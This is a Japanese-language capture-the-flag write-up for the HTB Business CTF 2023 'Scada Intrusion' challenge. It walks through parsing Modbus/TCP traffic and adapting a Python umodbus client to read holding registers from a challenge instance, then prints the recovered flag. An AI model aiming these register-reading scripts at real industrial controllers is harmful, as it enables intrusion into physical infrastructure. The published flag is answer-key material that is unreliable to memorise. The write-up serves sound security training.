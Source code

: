 ```yaml
---
layout: post
title: "[Scada] Intrusion (325 pts, 78 solved)"
published : true
permalink: /ctf/writeups/HTB_Business_CTF_2023/Scada_Intrusion
tags: [CTF, WriteUps, HTB Business CTF]
---
```

## Description
After gaining access to the enemy's infrastructure, we collected crucial network traffic data from their Modbus network. Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data.

## Files
- ics_watch_tower.zip

## Solution
zipファイルを展開すると以下の二つのファイルが現れる。

- "tower_logs.pcapng"
- "client.py"

この問題にはDockerインスタンスが用意されているが、ncで接続しても反応はなかった。

"tower_logs.pcapng"を見ると、プロトコル"Modbus/TCP"の通信が確認できた。

また、全ての通信**Unit**が**52**となっていることがわかる。

まずは、"Watch Tower"と同じように"Modbus/TCP"のデータを抽出する。

```sh
┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/scada/Intrusion]
└─$ python3 modbus_show.py >network_logs.txt
```

次に、配布された"client.py"の中身を見てみると、以下のようになっている。

- client.py

```python
#!/usr/bin/python3

import socket
from time import sleep
from umodbus import conf
from umodbus.client import tcp

# Adjust modbus configuration
conf.SIGNED_VALUES = True

# Create a socket connection
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(('127.0.0.1', 502)) # CHANGE THE IP & PORT to the dockers instance

# write your umodbus command here
# command =

# Send your message to the network
tcp.send_message(command, sock)

# Use sleep between messages
time.sleep(1)

# Close the connection
sock.close()
```

"command" に "umodbus command"を入れるよう指示がある。

"umodbus command"について検索すると、以下のサイトを発見した。

- https://umodbus.readthedocs.io/en/latest/client/tcp.html#

このサイトはModbusAPIについて説明しており、modbusを操作するためのAPIが確認できる。

ここで、改めて問題文を読むと、"Our primary objective is to swiftly identify the specific registers containing highly sensitive information and extract that data."と書かれており、registerの値を取得する必要がありそうなことがわかる。

さらに、以下のサイトではModbusのregister typeについて説明している。

- https://www.csimn.com/CSI_pages/Modbus101.html

> Review of Modbus Register Types  
> The types of registers referenced in Modbus devices include the following:  
> • Coil (Discrete Output)  
> • Discrete Input (or Status Input)  
> • Input Register  
> • Holding Register  
> Whether a particular device includes all of these register types is up to the manufacturer. It is very common to find all I/O mapped to holding registers only. Coils are 1-bit registers, are used to control discrete outputs, and may be read or written. Discrete Inputs are 1-bit registers used as inputs, and may only be read. Input registers are 16-bit registers used for input, and may only be read. Holding registers are the most universal 16-bit register, may be read or written, and may be used for a variety of things including inputs, outputs, configuration data, or any requirement for "holding" data.

Modbus APIを説明しているサイトによると、"Holding Register"の取得は以下を使用すれば良い。

> umodbus.client.tcp.read_holding_registers(slave_id, starting_address, quantity)  
> Return ADU for Modbus function code 03: Read Holding Registers.
> 
> Parameters:	slave_id – Number of slave.  
> Returns:	Byte array with ADU.

slave_idに指定するidは、パケットキャプチャから52であることがわかっている。

よって、client.pyを以下のように修正した。

```python
#!/usr/bin/python3

import socket
from time import sleep
from umodbus import conf
from umodbus.client import tcp

# Adjust modbus configuration
conf.SIGNED_VALUES = True

def get_data(i,s,q):
    print('===', i, '===')
    # Create a socket connection
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect(('94.237.63.180', 40554)) # CHANGE THE IP & PORT to the dockers instance

    # write your umodbus command here
    command = tcp.read_holding_registers(i, s, q)

    # Send your message to the network
    r = tcp.send_message(command, sock)
    print(r)
    result = ''
    for n in r:
        result += chr(n)

    # Use sleep between messages
    sleep(1)

    # Close the connection
    sock.close()
    return result

'''
for i in range(1,100):
    result = get_data(i)
    print(result)
    if 'HTB{' in result:
        print(result)
        break
'''
result = get_data(52,0,125)
print(result)
result += get_data(52,125,125)
print(result)
result += get_data(52,250,125)
print(result)
```

なお、一度に取得できるデータは125文字のようだったので、3回接続している。

出力:

```sh
┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/scada/Intrusion]
└─$ python3 client.py
=== 52 ===
[48, 86, 33, 41, 37, 81, 72, 121, 74, 33, 84, 121, 66, 32, 116, 36, 55, 80, 94, 43, 61, 123, 50, 62, 57, 90, 51, 83, 89, 89, 115, 120, 74, 120, 111, 67, 119, 44, 94, 53, 44, 35, 45, 104, 119, 123, 110, 57, 33, 97, 90, 38, 104, 49, 79, 120, 109, 97, 48, 33, 44, 67, 76, 53, 57, 104, 84, 89, 72, 50, 121, 119, 43, 110, 56, 57, 79, 55, 100, 82, 77, 39, 64, 51, 122, 113, 50, 121, 62, 53, 82, 85, 91, 68, 44, 95, 109, 79, 76, 66, 119, 33, 102, 110, 49, 82, 54, 80, 84, 32, 41, 60, 103, 40, 50, 100, 58, 56, 52, 53, 62, 112, 81, 57, 121]
0V!)%QHyJ!TyB t$7P^+={2>9Z3SYYsxJxoCw,^5,#-hw{n9!aZ&h1Oxma0!,CL59hTYH2yw+n89O7dRM'@3zq2y>5RU[D,_mOLBw!fn1R6PT )<g(2d:845>pQ9y
=== 52 ===
[40, 42, 123, 104, 70, 54, 55, 80, 124, 95, 60, 100, 78, 114, 104, 61, 119, 73, 49, 100, 100, 42, 65, 51, 119, 57, 114, 54, 51, 49, 45, 56, 68, 44, 52, 68, 48, 113, 95, 71, 66, 50, 93, 53, 46, 93, 109, 54, 51, 46, 51, 59, 117, 77, 99, 32, 41, 98, 90, 38, 62, 40, 120, 51, 62, 57, 63, 81, 50, 95, 37, 51, 59, 65, 81, 65, 70, 114, 50, 45, 48, 51, 109, 73, 90, 55, 83, 94, 108, 53, 33, 95, 33, 71, 64, 78, 36, 108, 67, 50, 54, 48, 77, 76, 126, 86, 57, 73, 75, 40, 78, 42, 101, 87, 94, 49, 121, 98, 98, 41, 54, 59, 89, 65, 107]
0V!)%QHyJ!TyB t$7P^+={2>9Z3SYYsxJxoCw,^5,#-hw{n9!aZ&h1Oxma0!,CL59hTYH2yw+n89O7dRM'@3zq2y>5RU[D,_mOLBw!fn1R6PT )<g(2d:845>pQ9y(*{hF67P|_<dNrh=wI1dd*A3w9r631-8D,4D0q_GB2]5.]m63.3;uMc )bZ&>(x3>9?Q2_%3;AQAFr2-03mIZ7S^l5!_!G@N$lC260ML~V9IK(N*eW^1ybb)6;YAk
=== 52 ===
[97, 45, 102, 125, 37, 95, 52, 42, 48, 71, 50, 93, 100, 98, 82, 43, 68, 71, 57, 48, 87, 105, 71, 101, 101, 65, 52, 115, 103, 117, 74, 63, 111, 76, 101, 77, 43, 109, 110, 32, 101, 83, 99, 82, 68, 70, 92, 108, 83, 74, 121, 60, 35, 108, 88, 89, 37, 66, 39, 39, 62, 95, 71, 63, 102, 125, 35, 42, 101, 67, 80, 100, 110, 37, 85, 81, 35, 73, 99, 80, 106, 45, 126, 38, 71, 36, 54, 90, 87, 91, 42, 112, 35, 50, 72, 32, 80, 32, 107, 104, 97, 71, 96, 102, 94, 66, 92, 106, 103, 104, 66, 47, 73, 125, 106, 114, 64, 93, 75, 90, 74, 124, 100, 35, 49]
0V!)%QHyJ!TyB t$7P^+={2>9Z3SYYsxJxoCw,^5,#-hw{n9!aZ&h1Oxma0!,CL59hTYH2yw+n89O7dRM'@3zq2y>5RU[D,_mOLBw!fn1R6PT )<g(2d:845>pQ9y(*{hF67P|_<dNrh=wI1dd*A3w9r631-8D,4D0q_GB2]5.]m63.3;uMc )bZ&>(x3>9?Q2_%3;AQAFr2-03mIZ7S^l5!_!G@N$lC260ML~V9IK(N*eW^1ybb)6;YAka-f}%_4*0G2]dbR+DG90WiGeeA4sguJ?oLeM+mn eScRDF\lSJy<#lXY%B''>_G?f}#*eCPdn%UQ#IcPj-~&G$6ZW[*p#2H P khaG`f^B\jghB/I}jr@]KZJ|d#1
```

さらに、抽出したModbusのデータから、"register"の"startAddr"を取り出す。

```sh
┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/scada/Intrusion]
└─$ cat network_logs.txt | grep 'Registers ' -A2|grep start|cut -d'=' -f2|sed -z 's/\n/,/g'
 0x6, 0xa, 0xc, 0x15, 0x16, 0x1a, 0x2f, 0x35, 0x3f, 0x4d, 0x53, 0x56, 0x59, 0x5f, 0x60, 0x68, 0x7b, 0x80, 0x83, 0x86, 0x8b, 0x8f, 0x90, 0x91, 0x99, 0xa3, 0xa8, 0xad, 0xb3, 0xc1, 0xce, 0xd2, 0xd6, 0xd7, 0xdb, 0xdd, 0xe0, 0xe1, 0xe2, 0xe7, 0xef, 0xfd,                                             
```

上記より、以下のスクリプトを作成しフラグを得た。

- solver.py

```python
data = [48, 86, 33, 41, 37, 81, 72, 121, 74, 33, 84, 121, 66, 32, 116, 36, 55, 80, 94, 43, 61, 123, 50, 62, 57, 90, 51, 83, 89, 89, 115, 120, 74, 120, 111, 67, 119, 44, 94, 53, 44, 35, 45, 104, 119, 123, 110, 57, 33, 97, 90, 38, 104, 49, 79, 120, 109, 97, 48, 33, 44, 67, 76, 53, 57, 104, 84, 89, 72, 50, 121, 119, 43, 110, 56, 57, 79, 55, 100, 82, 77, 39, 64, 51, 122, 113, 50, 121, 62, 53, 82, 85, 91, 68, 44, 95, 109, 79, 76, 66, 119, 33, 102, 110, 49, 82, 54, 80, 84, 32, 41, 60, 103, 40, 50, 100, 58, 56, 52, 53, 62, 112, 81, 57, 121, 40, 42, 123, 104, 70, 54, 55, 80, 124, 95, 60, 100, 78, 114, 104, 61, 119, 73, 49, 100, 100, 42, 65, 51, 119, 57, 114, 54, 51, 49, 45, 56, 68, 44, 52, 68, 48, 113, 95, 71, 66, 50, 93, 53, 46, 93, 109, 54, 51, 46, 51, 59, 117, 77, 99, 32, 41, 98, 90, 38, 62, 40, 120, 51, 62, 57, 63, 81, 50, 95, 37, 51, 59, 65, 81, 65, 70, 114, 50, 45, 48, 51, 109, 73, 90, 55, 83, 94, 108, 53, 33, 95, 33, 71, 64, 78, 36, 108, 67, 50, 54, 48, 77, 76, 126, 86, 57, 73, 75, 40, 78, 42, 101, 87, 94, 49, 121, 98, 98, 41, 54, 59, 89, 65, 107, 97, 45, 102, 125, 37, 95, 52, 42, 48, 71, 50, 93, 100, 98, 82, 43, 68, 71, 57, 48, 87, 105, 71, 101, 101, 65, 52, 115, 103, 117, 74, 63, 111, 76, 101, 77, 43, 109, 110, 32, 101, 83, 99, 82, 68, 70, 92, 108, 83, 74, 121, 60, 35, 108, 88, 89, 37, 66, 39, 39, 62, 95, 71, 63, 102, 125, 35, 42, 101, 67, 80, 100, 110, 37, 85, 81, 35, 73, 99, 80, 106, 45, 126, 38, 71, 36, 54, 90, 87, 91, 42, 112, 35, 50, 72, 32, 80, 32, 107, 104, 97, 71, 96, 102, 94, 66, 92, 106, 103, 104, 66, 47, 73, 125, 106, 114, 64, 93, 75, 90, 74, 124, 100, 35, 49]




flag_pos = [0x06, 0x0a, 0x0c, 0x15, 0x16, 0x1a, 0x2f, 0x35, 0x3f, 0x4d, 0x53, 0x56, 0x59, 0x5f, 0x60, 0x68, 0x7b, 0x80, 0x83, 0x86, 0x8b, 0x8f, 0x90, 0x91, 0x99, 0xa3, 0xa8, 0xad, 0xb3, 0xc1, 0xce, 0xd2, 0xd6, 0xd7, 0xdb, 0xdd, 0xe0, 0xe1, 0xe2, 0xe7, 0xef, 0xfd]

print(len(data))
for p in flag_pos:
    #print(hex(p))
    print(chr(data[p]),end='')
```

出力:
```sh
┌──(kali㉿kali)-[/ctf/…/htb/HTB Business CTF 2023/scada/Intrusion]
└─$ python solver.py
375
HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}
```

Flag: `HTB{239157325_m19h7_h1dd3_53c2375!@$2609^}`
